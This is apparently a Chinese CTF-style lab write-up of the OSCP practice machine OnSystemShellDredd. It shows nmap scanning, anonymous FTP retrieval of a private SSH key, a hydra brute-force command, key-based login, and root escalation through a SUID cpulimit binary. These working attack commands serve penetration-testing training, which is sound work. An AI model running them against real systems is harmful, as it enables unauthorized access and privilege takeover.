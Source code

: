 # 原创
：  OSCP靶机----OnSystemShellDredd

# OSCP靶机----OnSystemShellDredd

## 从WEB到内网&amp;&amp;FTP匿名&amp;&amp;SSH密钥登录&amp;&amp;SUID提权

今天来打一个OSCP的靶机，难度中等，包含了端口探测，服务探测，FTP匿名登录，ssh密钥登录，suid提权等等…靶场难度中等，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。希望大家看完可以有所收获。

### 启动环境

启动VPN：`openvpn universal.ovpn`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/f3e06455118a86e9aa04b09bc02f52db.jpeg"/><br/> 攻击机IP为：192.168.45.173<br/> 启动靶机：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d4a25f980be4f66841b123174a1bd12f.jpeg"/><br/> 靶机IP为: 192.168.156.130

### 信息收集

#### 1.端口

nmap扫描端口<br/> `nmap --min-rate 10000 -p- 192.168.156.130`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ba0d35d100ada263b655bb63c3f6a38f.jpeg"/><br/> 目标开放了21，61000两个端口（多扫几遍，有时候一遍会不准确。)<br/> 详细探测一下端口信息。<br/> `nmap -p 21,61000 -sV 192.168.156.130`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c83acbd2ef29c6508285dc7f4cbf1f80.jpeg"/><br/> 这个靶机竟然没有http服务，很少见。那就围绕这两个端口往下走。

#### 2.端口测试

**2.1**21-ftp<br/> 拿到ftp，先试试匿名用户anonymous登录。<br/> ftp 192.168.156.130<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/14d4b854a741649e13056a8d7f0036b8.jpeg"/><br/> 匿名用户密码一般都是空或者Email，这里空密码直接登录成功了。

```
ftp文件收集：
binary    #以二进制模式传输文件，保证文件完整
ls -al
cd .hannah
ls -al
get id_rsa  #下载文件

```

经过ls查找，有一个id_rsa文件，直接下载下来，看一下有没有用。<br/> cat id_rsa<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2d5cd91c70627bdd549888c6b06d7e5b.jpeg"/><br/> 内容加密了，待定。<br/> **2.2**61000-ssh<br/> 拿到ssh，老样子，先看下对应的版本有没有脚本可以利用<br/> `searchsploit OpenSSH 7.9`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a06775390e8e3a6f6ac9b9ee0185c55a.jpeg"/><br/> 没有，试一下手工登录。<br/> `ssh root@192.168.156.130 -p 61000`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7c54962f338dfef0365bbe9c99a3ad14.jpeg"/><br/> 失败，用hydra爆破吧。线程为6，字典用msf的。<br/> `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.156.130 ssh -s 61000`<br/> 等待…<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9e6634c0492640699e63314776fc30e9.png"/><br/> 没有爆出来。

### 攻击阶段

回到刚才收集到的id_rsa文件，看上去是base64加密的，试一下解密。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e8fb9c5fa6be9f63e513fecb4f092ba8.jpeg"/><br/> 解密后发现了root@OffShell，这应该就是shh登录密码，只是不知道用户，用文件ssh密钥。尝试登录：<br/> `ssh -i id_rsa root@192.168.156.130 -p 61000`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dd6a26b5163e92c64a7135cded2ed04d.jpeg"/><br/> 密码错误，思路错了。可能不是root用户，倒回去是有一个.hannah文件的，试一下.hannah当用户登录。<br/> `ssh -i id_rsa .hannah@192.168.156.130 -p 61000`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0b56c125eb65b32b465f9d1ea2f63971.jpeg"/><br/> .hannah不行，试一下hannah<br/> `ssh -i id_rsa hannah@192.168.156.130 -p 61000`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/50f98b9a5b25b9cd40914a69a249de21.jpeg"/><br/> 有不一样的东西出来了<br/> 这个错误It is required that your private key files are NOT accessible by others.翻译一下就是私钥文件不能被其他人访问，解决办法就是要让别人不可读写这个文件。<br/> 修改id_rsa权限：<br/> `chmod 600 id_rsa`<br/> `ssh -i id_rsa hannah@192.168.156.130 -p 61000`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ff08586a6ff1a947373509ba15d67230.jpeg"/><br/> 成功登录，有shell了。

### 内网渗透

获取flag1：<br/> `find / -name local.txt 2&gt;/dev/null`<br/> `cat /home/hannah/local.txt`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/cfee63b498755d0d0f38df0523f65fff.jpeg"/>

#### 提权

1.内核overlayfs提权<br/> `lsb_release -a`看看发行版本<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/319bcd1df29f4b2656013be9620b58c8.jpeg"/><br/> Debian，不能overlayfs提权<br/> 2.低内核版本提权<br/> `uname -a`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fac4a5c1a2e92fd88c1f46a6c8a6e323.jpeg"/><br/> 4.19.0,不太行。<br/> 3.sudo提权<br/> `sudo -l`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fed9ec27aee06ac3603c06933797e484.jpeg"/><br/> 不存在sudo<br/> 4.suid提权<br/> `find / -perm -u=s -type f 2&gt;/dev/null`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/47b5715a21895dde2aec84d9be5e51e9.jpeg"/><br/> 有一个没见过的cpulimit，去https://gtfobins.github.io搜一下<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/999d8e0ee672fec831631619668a692e.jpeg"/><br/> 果真有<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e2b2affe1aa84a3159d59d97f406301e.jpeg"/><br/> 直接用起来：<br/> `cpulimit -l 100 -f -- /bin/sh -p`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/42a64266b87c478f34cb0a8d55556255.jpeg"/><br/> 成功提到root权限！<br/> 获取flag2：<br/> `cat /root/proof.txt`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/eb5e6cc11834e5d61d3026f549518f1c.jpeg"/><br/> 完结。
